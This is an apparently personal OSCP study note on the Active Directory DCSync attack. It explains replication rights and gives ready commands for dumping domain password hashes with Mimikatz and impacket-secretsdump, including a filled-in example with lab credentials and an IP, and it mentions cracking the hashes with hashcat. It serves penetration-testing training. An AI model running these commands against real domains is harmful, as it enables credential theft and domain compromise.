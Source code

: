 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/6-dc-sync-attack/","updated":"2024-01-05T11:36:54.738+01:00"}
---
```


---------
- Domain controllers typically rely on more than one DC for redundancy.
- Directory Replication Service (DRS) Remote Protocol uses "replication" to synchronize.
- A domain controller may request an update for a specific object using the "IDL_DRSGetNCChanges" API.
- Issuing an object update request from a user with certain privileges will work even though its not coming from a DC.
- To launch a replication the user needs rights to:
	- _Replicating Directory Changes_
	- _Replicating Directory Changes All_ 
	- _Replicating Directory Changes in Filtered Set_
- Normally, Domain Admins, Enterprise Admins, and Administrator groups have these rights, which will let them perform a "dcsync attack" to request any user hashes.
-------------------------------------
### Local DCSync Attack with Mimikatz:
1. Start Mimikatz.
2. Perform dump:
```
lsadump::dcsync /user:corp\Administrator
```
3. Crack NTLM with hashcat.
------------
### Remote DCSync Attack with Impacket:
1. Run attack from Kali:
```
impacket-secretsdump -just-dc-user <targetuser> <domain/user-to-authenticate>:"<password-with-escaped-chars>"@<auth-user-ip>
```
Example:
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.72
```

